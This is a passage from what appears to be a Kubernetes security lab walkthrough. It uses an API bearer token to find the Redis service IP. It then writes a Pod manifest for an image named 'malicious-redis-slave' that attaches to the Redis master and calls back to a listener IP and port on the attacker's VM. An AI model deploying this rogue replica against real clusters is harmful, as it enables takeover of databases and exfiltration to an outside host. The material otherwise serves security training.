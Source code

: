 * Fetch the `clusterIP` of `redis-service` and note the value. 

```bash
curl -s https://10.96.0.1/api/v1/namespaces/default/services -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure | grep -E '("redis-service"|clusterIP)'
```

The response will be similar to the one below. Please note that the IP may differ

```
        "clusterIP": "10.96.0.1",
        "clusterIP": "10.98.196.52",
        "name": "redis-service",
        "clusterIP": "10.97.43.203", # This is the MASTERHOST IP of Redis. IP Value may vary
```

* On an editor, copy the following JSON value and make the following changes

```
cat > mal-redis.json <<EOF
{
    "kind": "Pod",
    "apiVersion": "v1",
    "metadata": {
        "name": "mal-redis"
    },
    "spec": {
        "containers": [{
            "name": "mal-redis",
            "image": "we45/malicious-redis-slave",
            "env": [
              {
                "name": "MASTERHOST",
                "value": "Redis-Service-ClusterIP-HERE"
              },
              {
                "name": "MASTERPORT",
                "value": "6379"
              },
              {
                "name": "LISTENER_IP",
                "value": "VM-IP-HERE"
              },
              {
                "name": "LISTENER_PORT",
                "value": "9090"
              }
            ]
        }]
    }
}
EOF
```

Change the value of `MASTERHOST` with the value of redis-service `clusterIP`.
